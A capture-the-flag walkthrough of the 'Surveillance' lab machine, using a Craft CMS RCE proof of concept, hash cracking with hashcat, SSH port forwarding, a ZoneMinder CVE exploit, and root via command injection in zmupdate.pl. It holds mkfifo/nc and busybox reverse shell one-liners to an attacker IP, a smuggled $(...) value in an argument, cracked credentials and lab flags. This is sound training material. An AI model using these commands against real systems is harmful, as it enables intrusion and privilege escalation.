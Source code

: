 ![[Surveillance.png]]
# Reconnaissance
1. `curl -I 10.10.11.245` to find a possible DNS name, and i found `surveillance.htb` add it to `/etc/hosts`
2. scanning discover a `/admin` which lead to `/admin/login`
3. system is running `craft CMS` version unknown, but there's a recent discovery of RCE, details can be found here `https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226`

# User Escalation
1. based on the POC, `python3 craftcms-cve.py http://surveillance.htb` to send the payload
3. and i got a shell, but it behave weirdly, so i tried a way to get a reverse shell from it, by utilizing this payload `rm /tmp/nuts;mkfifo /tmp/nuts;cat /tmp/nuts|/bin/sh -i 2>&1|nc your-ip port >/tmp/nuts` borrowed from `https://gist.github.com/sckalath/67a59eb4955f1f9aedde`
4. before executing the command, setup an nc listener `nc -lvnp port`
5. after executing the command i got a reverse shell in nc which us way much more stable and interactive
6. the initial connection put me in `/var/www/html/craft/web/cpresources` and i notice something interesting in `/var/www/html/craft/storage/backups`, there's a `surveillance--2023-10-17-202801--v4.4.14.sql.zip` backup file in the form of zip, moved it to my local
7. once the file is on my local machine i unzip the file and given an SQL file
8. then i import the SQL via xampp databases (reading the SQL code is fine too)
9. after importing there's a bunch of tables, and the most interesting is the `users` table, which inside has only 1 credentials, which is `matthew` with a hashed password
10. move the hash into a new file `matthew.hash`, `hashid matthew.hash` return a list of possible hash, and it looks like a `SHA-256` which is `1400` in hashcat, i crack the password with `rockyou.txt`
11. `hashcat -m 1400 matthew.hash rockyou.txt` return a password of `starcraft122490` acquiring the credentials of `matthew:starcraft122490` for the SSH connection
12. `ssh matthew@surveillance.htb`, if there's a prompt just `yes`, and input the password
13. once i'm in `cat user.txt`
14. flag: `b70fcdf7a34088d0ecdf2e9713735f1b`

# Further Reconnaissance
1. `sudo -l` this user isn't allowed to run any sudo command
2. find any exploitable binary in `/bin`, `/usr/sbin`, `/usr/bin`, found none
3. moving and running `linpeas.sh` to find any possible privesc path or an insecure config, i found another user named `zoneminder`. which turns out to be an open-source surveillance software (although this step could be done with `ls /home`).
4. during the scans the user `zoneminder` password is exposed in the file `/usr/share/zoneminder/www/api/app/Config/database.php` which is `ZoneMinderPassword2023`
	1. `grep /usr/share/zoneminder/www/api/app/Config | grep -i "version"`, returns that the zoneminder is running on version `1.36.32`
5. `netstat -nltp` return a list of currently open port, which i find something interesting running on port 8080

# zoneminder Escalation
1. since i know that there's a user and a service called zoneminder, and there's open port 8080 which running on localhost, i decided to access it with ssh port forwarding based on this `https://serverfault.com/questions/1004529/access-an-http-server-as-localhost-from-an-external-pc-over-ssh` which i come with the payload of `ssh -L 9999:localhost:8080 matthew@surveillance.htb`
2. upon running the command, when i was prompted back in the SSH it means i have completed the port forwarding process, and now i could access the page by visiting `127.0.0.1:9999` on the browser
3. with previous version of zoneminder known, i found this POC `https://github.com/heapbytes/CVE-2023-26035`
4. once the login page is accessible, setup an nc listener `nc your-ip port`
5. then run the payload `python3 epxloit.py --target http://target.url --cmd 'command'`, i use the reverse shell command on the user escalation part `rm /tmp/nuts;mkfifo /tmp/nuts;cat /tmp/nuts|/bin/sh -i 2>&1|nc your-ip port >/tmp/nuts` and check for the connection in the nc listener
6. since this is an unstable shell, securing the robust one could use a simple python (if available) `python3 -c "import pty; pty.spawn('/bin/bash')"`

# Privilege Escalation
1.  once logged in as zoneminder do `sudo -l`, and it turns out that this user could run a script in this regex pattern as sudo `/usr/bin/zm[a-zA-Z]*.pl`
2. which then i list all available binary with `ls /usr/bin | grep -E '^zm[a-zA-Z_]+\.pl$'` which return a list of zm script
3. after some tweaking with the machine, i notice that this script accepts file as the `--user` parameter which then i could run a script as sudo
4. nc is available on the target hosts, create a simple reverse shell script with the content
```sh
#!/bin/bash
busybox nc 10.10.14.70 9099 -e sh
```
i find the normal nc doesn't work with -e so i choose to use the busybox version
1. `chmod +x rev.sh` to make it executable
2. then setup nc listener on my local machine `nc -lvnp port`
3. trigger the zmupdate script `sudo zmupdate.pl --version=1 --user='$(/tmp/nuts2/rev.sh)' --pass=ZoneMinderPassword2023`
4. enter on the first prompt, and `n` on the next prompt, then it will load for a long time, check for any connection on the nc listener, if on the script i use `sh` it wont show any sign such as `$`, but using `bash` will show the sign, use `id` to identify if i'm on the system, which i have gain access as root, or i could secure a stable shell with a python command `python3 -c "import pty; pty.spawn('/bin/bash')"`
5. which now im logged in as root `cat /root/root.txt`
6. flag: `0ac5f5d00aa4725f99625aad9dd398bb`

![[Surveillance-Pwned.png]]
